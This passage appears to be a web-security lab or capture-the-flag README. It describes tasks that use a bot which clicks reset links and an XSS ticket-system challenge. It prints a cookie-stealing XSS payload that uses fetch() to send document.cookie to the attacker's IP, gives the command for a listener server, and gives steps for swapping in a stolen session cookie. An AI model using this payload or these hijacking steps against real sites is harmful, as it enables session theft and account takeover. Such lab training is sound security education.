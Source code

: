 **🔧 Required Configuration:**
1. Identify your IP on the network:
   ```bash
   ip addr show tun0
   ```
2. Start a local HTTP server:
   ```bash
   python3 -m http.server -b :: 80
   ```
3. Monitor bot connections

**📍 Key Points:**
- Check the source code for known customer emails
- The bot will automatically click on the reset link
- The flag appears in the `<header>` section after customer login

---

### 3. Stealing Cookies from Managers
**🎯 Objective:** Create an XSS payload to steal cookies

**📝 Description:**
Develop a malicious JavaScript payload that exploits XSS vulnerabilities in a ticket system to steal visitor cookies.

**📋 Constraints:**
- Format: `<script>// JavaScript Code</script>`
- Code as short as possible
- No variable declarations allowed
- Use the `fetch()` function
- Send cookies in the request pathname

**💡 Format Example:**
```javascript
<script>fetch('http://[your_ip]/.session='+document.cookie)</script>
```

**🎯 Target Endpoint:** `http://web0x00.hbtn/login`

---

### 4. Catch The FLAG #2
**🎯 Objective:** Obtain the second flag via XSS

**📝 Description:**
Use the previous XSS payload to capture support cookies and access the flag displayed in the header.

**⚙️ Cookie Manipulation (Firefox):**
1. Press F12 (developer tools)
2. Go to Storage tab
3. Select Cookies
4. Modify the value

**⚠️ Important:** The XSS payload will also load on your side!
